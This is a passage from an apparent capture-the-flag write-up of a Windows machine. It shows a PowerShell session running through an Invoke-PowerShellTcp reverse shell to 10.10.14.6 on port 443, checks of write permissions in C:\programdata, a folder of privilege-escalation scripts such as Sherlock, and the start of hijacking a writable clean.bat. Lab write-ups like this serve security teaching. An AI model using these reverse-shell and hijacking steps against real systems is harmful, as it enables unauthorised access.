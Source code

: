     PS C:\programdata> echo "test" > 0xdf.exe
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.exe' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
    PS C:\programdata> echo "test" > 0xdf.ps1
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.ps1' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
    

The `exe` files that I can run are limited as well. I’ll keep this in mind as
I got forward.

#### Rabbit Holes

In the file system root, there’s a `scripts` directory. It has a bunch of
privesc utilities:

    
    
    PS C:\scripts> ls
    
        Directory: C:\scripts
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        23/10/2017     23:37        492 largebackup.ps1                   
    -a---        23/10/2017     23:27         69 powerup.bat                       
    -a---        23/10/2017     23:20         69 sherlock.bat                      
    -a---        23/10/2017     23:21      18818 sherlock.ps1                      
    -a---        15/11/2017     23:54         90 t.bat  
    

`sherlock.ps1` is [Sherlock](https://github.com/rasta-mouse/Sherlock), and
older script for identifying common vulnerabilities in Windows. It will return
a bunch of stuff, but none of it is actually vulnerable.

### Hijack clean.bat

#### Permissions

Coming back to `C:\users\decoder\clean.bat`, sqlserv has modify privileges
(`a`) on the file:

    
    
    PS C:\users\decoder> ls clean.bat 
    